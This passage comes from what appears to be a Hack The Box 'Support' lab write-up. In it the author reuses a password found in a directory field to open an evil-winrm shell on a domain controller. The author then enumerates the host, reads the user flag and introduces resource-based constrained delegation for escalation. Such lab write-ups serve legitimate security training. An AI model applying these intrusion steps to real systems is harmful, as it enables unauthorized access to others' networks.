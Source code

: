 The `info` field looks like is a password!

**Also, this `support` user is inside the group `Remote Management Users`, which means it can login via WinRM protocol!**

**Let's use `evil-winrm` to remotely login!**
```
┌──(root🌸siunam)-[~/ctf/htb/Machines/Support]
└─# evil-winrm -u support -p 'Ironside47pleasure40Watchful' -i $RHOSTS
[...]
*Evil-WinRM* PS C:\Users\support\Documents> whoami;hostname;ipconfig /all
support\support
dc

Windows IP Configuration

   Host Name . . . . . . . . . . . . : dc
   Primary Dns Suffix  . . . . . . . : support.htb
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : support.htb

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . :
   Description . . . . . . . . . . . : vmxnet3 Ethernet Adapter
   Physical Address. . . . . . . . . : 00-50-56-B9-B2-AE
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   IPv4 Address. . . . . . . . . . . : 10.10.11.174(Preferred)
   Subnet Mask . . . . . . . . . . . : 255.255.254.0
   Default Gateway . . . . . . . . . : 10.10.10.2
   DNS Servers . . . . . . . . . . . : 127.0.0.1
   NetBIOS over Tcpip. . . . . . . . : Enabled
```

I'm user `support`!

**user.txt:**
```
*Evil-WinRM* PS C:\Users\support\Documents> type ..\Desktop\user.txt
{Redacted}
```

# Privilege Escalation

## support to Administrator

According to [HackingArticles](https://www.hackingarticles.in/domain-escalation-resource-based-constrained-delegation/), we can leverage one of the domain escalation methods, **Resource Based Constrained Delegation**.
